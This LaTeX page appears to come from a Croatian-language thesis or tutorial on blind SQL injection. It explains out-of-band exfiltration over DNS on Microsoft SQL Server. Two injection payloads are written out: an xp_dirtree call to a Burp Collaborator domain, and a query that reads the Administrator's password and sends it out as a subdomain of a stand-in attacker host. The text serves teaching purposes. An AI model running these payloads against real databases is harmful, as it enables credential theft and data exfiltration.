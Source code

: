 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{U danoj situaciji, često je moguće zloupotrijebiti slijepu SQLi ranjivost uzrokovanjem vankanalne mrežne komunikacije sa sustavom kojeg napadač kontrolira. Kao i prije, ovakvo ponašanje se može uvjetno uzrokovati kako bi se informacije dohvaćale dio po dio. Međutim, postoji mogućnost izvlačenja podataka direktno iz mrežne komunikacije.

Za ovu svrhu se mogu iskoristiti razni mrežni protokoli, od kojih je najučinkovitiji DNS. Razlog toga je što veliki broj komercijalnih mreža dopušta slobodan prolaz DNS upita, jer su oni od osnovne važnosti za normalan rad tih sustava.

Tehnika kojima je moguće uzrokovati DNS upit su usko vezane za tip baze podataka koji se koristi. Kod Microsoft SQL Serveru, naredba kojom se uzrokuje DNS upit na specifičnu domenu ima sljedeći oblik:

\begin{verbatim}
'; exec master..xp_dirtree 
'//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
\end{verbatim}

Ova naredba će uzrokovati bazu podataka da izvrši DNS upit za domenu \texttt{0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net}

\pagebreak

Izvlačenje podataka iz baze se obavlja korištenjem sljedeće naredbe:

\begin{verbatim}
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE
username='Administrator');exec('master..xp_dirtree 
"//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.attackerdomain.net/a"')--
\end{verbatim}

Ova naredba čita lozinku korisnika \texttt{Administrator}, koja se nadodaje na domenu koju kontrolira napadač, \texttt{attackerdomain}, te se uzrokuje DNS upit. Ovo će rezultirati sljedećim DNS upitom iz kojeg je moguće pročitati lozinku biranog korisnika:

\begin{verbatim}
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.attackerdomain.net
\end{verbatim}

Vankanalne (OAST) tehnike su veoma efektivan način pronalaženja i zloupotrebljavanja slijepih SQLi ranjivost, zbog njihove visoke vjerojatnosti uspjeha i sposobnosti da direktno izvlače podatke iz baze. Iz ovog razloga, OAST tehnike su korištene i u situacijama kada se neke od navedenih tehnika mogu izvesti.

}
\end{document}
